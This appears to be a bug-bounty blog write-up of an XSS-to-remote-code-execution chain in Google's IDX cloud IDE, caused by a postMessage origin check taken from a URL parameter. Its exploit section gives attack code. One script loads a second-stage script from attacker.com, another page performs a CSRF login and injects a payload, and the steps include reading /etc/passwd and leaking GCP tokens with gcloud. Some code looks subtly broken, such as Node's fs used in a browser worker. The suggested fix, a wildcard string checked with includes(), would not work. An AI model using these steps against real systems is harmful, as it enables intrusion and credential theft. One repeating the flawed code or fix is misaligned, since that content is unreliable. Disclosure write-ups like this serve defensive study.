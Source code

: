```yaml
---
title: "XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned 💰"
layout: post
tags: [Google, ProjectIDX, FirebaseStudio, XSS, RCE, security, pentesting, red-team, web-security, JavaScript, exploit, hacking, cybersecurity, GCP, bugbounty, XSS to RCE in Google IDX Workstation: A Technical Deep Dive]
image: /assets/images/xssrce.png
category: security
---
```



# XSS to RCE in Google IDX Workstation: A Technical Deep Dive

Hey there, I'm someone who loves digging into security vulnerabilities like this. Cloud-based development environments like Google's Project IDX (now integrated into Firebase Studio) make life easier for developers, but they also come with some intriguing security risks. Discovered in September 2025, this XSS vulnerability escalates to Remote Code Execution (RCE), potentially leaking Google Cloud Platform (GCP) tokens. Let's dive into the technical details together, examining code snippets and how the exploit works. I'll keep it natural, like we're chatting over coffee, but with solid technical depth.

## The Basics of IDX Workstation

First off, a quick rundown on what IDX Workstation is. It's a browser-based cloud IDE built on the open-source version of Visual Studio Code (Code OSS). It runs on subdomains like `*.cloudworkstations.dev` or `*.cloudworkstations.googleusercontent.com`. Features include code editing, terminal access, extensions from the Open VSX Registry, web previews, and even Android emulators. From a security standpoint, iframe and web worker communications are key, relying on things like the postMessage API. If origin validation is weak, things can go south quickly.

## The Root Cause: Weakness in the postMessage Handler

The heart of the vulnerability is in the `webWorkerExtensionHostIframe.html` file. This iframe manages web worker extension hosts and loads on the same origin as the main UI, making same-origin policy (SOP) breaches possible if not secured properly.

Here's the vulnerable code snippet:

```javascript
const parentOrigin = searchParams.get('parentOrigin') || window.origin;
self.onmessage = (event) => {
  if (event.origin !== parentOrigin) return;
  worker.postMessage(event.data, event.ports);
}
```

Let's break this down line by line, as this is where it all starts.

- **const parentOrigin = searchParams.get('parentOrigin') || window.origin;**  
  This is the problematic part. The `parentOrigin` value comes from URL query parameters (e.g., `?parentOrigin=malicious.com`). If missing, it defaults to `window.origin`. Why is this bad? It's user-controllable – an attacker can manipulate the URL to insert their own domain, bypassing restrictions. In a secure design, origins should be hardcoded or whitelisted, not pulled from untrusted sources like query params. This goes against the principle of least privilege.

- **self.onmessage = (event) => {**  
  A simple message listener, catching events from the parent window.

- **if (event.origin !== parentOrigin) return;**  
  It checks if the message's origin matches `parentOrigin`. If not, it drops the message. But since `parentOrigin` is manipulable, this check is useless. An attacker can set it to their exploit domain and slip messages through. A better approach would use a fixed whitelist: `if (event.origin !== 'https://trusted.google.domain')`. It also misses edge cases like sandboxed iframes or null origins.

- **worker.postMessage(event.data, event.ports);**  
  Forwards the message to the worker. This is key because binary data (like ArrayBuffers) gets hex-encoded and passed along. This allows XSS payloads to inject into the worker context. Once injected, the code runs with the workstation's privileges – file system access, terminal commands, you name it.

This flaw reminds me of similar issues in GitLab's Web IDE, where poor iframe isolation turns XSS into RCE.

## The Exploit Chain: Step by Step

To exploit this, you need the victim's subdomain – often leaked via Referer headers or DNS queries. The chain combines XSS, CSRF, and postMessage manipulation. Let's walk through it with code examples.

1. **Subdomain Discovery:**  
   The victim shares a preview link: `9000-[victim-subdomain].cloudworkstations.dev`. The attacker strips the `9000-` prefix to get the base subdomain.

2. **Attacker Setup:**  
   The attacker creates their own workstation and notes the subdomain.

3. **Payload Preparation:**  
   - **script1.js:** The main RCE payload. Example:  
     ```javascript
     const fs = require('fs'); // Assuming Node-like access in the worker
     fs.readFile('/etc/passwd', (err, data) => {
       if (err) throw err;
       console.log(data.toString()); // Exfiltrate to the attacker
     });
     ```  
   - **script2.js:** References script1.js.  
     ```javascript
     const script = document.createElement('script');
     script.src = 'https://attacker.com/script1.js'; // Victim domain variant
     document.body.appendChild(script);
     ```  
   - **xss.ipynb:** A Jupyter notebook referencing script2.js (exploits notebook rendering for injection).

4. **Uploading and Hosting:**  
   Upload xss.ipynb to the attacker's workstation. Host exploit.html (e.g., via ngrok):  
   ```html
   <!DOCTYPE html>
   <html>
   <body>
   <script>
     const victimDomain = '[victim-subdomain].cloudworkstations.dev';
     const attackerDomain = '[attacker-subdomain].cloudworkstations.googleusercontent.com';
     // CSRF to log into attacker's workstation
     fetch(`${attackerDomain}/login`, { method: 'POST', credentials: 'include' });
     // Iframe and postMessage injection
     const iframe = document.createElement('iframe');
     iframe.src = `${victimDomain}/?parentOrigin=${window.origin}`;
     document.body.appendChild(iframe);
     iframe.onload = () => {
       iframe.contentWindow.postMessage({ malicious: 'payload' }, '*');
     };
   </script>
   </body>
   </html>
   ```

5. **Victim Interaction:**  
   The victim clicks the exploit.html link. It triggers CSRF login, loads the iframe, and injects the payload via postMessage.

6. **Achieving RCE:**  
   The injected JS accesses the file system – for example, running `gcloud auth print-access-token` to leak tokens. Data gets exfiltrated to the attacker's server.

This chain shows how a client-side flaw can lead to server-side dominance in cloud IDEs.

## Impacts and Risks

- **RCE:** Full control over the victim's cloud instance – running commands, manipulating files.  
- **Token Leakage:** GCP tokens (with cloud-platform scope) grant access to services like Compute Engine and Storage.  
- **Lateral Movement:** In team settings, compromising one workstation could spread to others.

## Patch and Mitigations

Google patched it by moving the iframe to a separate origin, strengthening cross-origin barriers. At the code level, fixes could look like this:  

```javascript
const ALLOWED_ORIGINS = ['https://*.cloudworkstations.googleusercontent.com'];
if (!ALLOWED_ORIGINS.includes(event.origin)) return;
```

Also, add `sandbox="allow-scripts"` to iframes, apply CSP: `script-src 'self'; frame-ancestors 'none';`. Broader tips: Encrypt DNS, use Referrer-Policy: no-referrer, and monitor subdomains.

## Final Thoughts

Vulnerabilities like this highlight the double-edged sword of web-based IDEs – convenience meets risk when client-side security ties directly to cloud resources. Always prioritize origin validation in APIs like postMessage. Programs like Google's VRP keep researchers motivated to find these. If you're tinkering with similar stuff, stay vigilant – a small parameter can lead to big trouble. Thanks for reading; if you have questions or thoughts, drop them in the comments below!

## Video Demonstration

For a visual walkthrough of the exploit, check out this demo video from the original disclosure:

<a href="https://x.com/i/status/1965327615277027446" target="_blank" rel="noopener">
  <img src="/assets/images/xssidx.png" alt="Tweet video" style="max-width:100%;height:auto;">
</a>




<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->
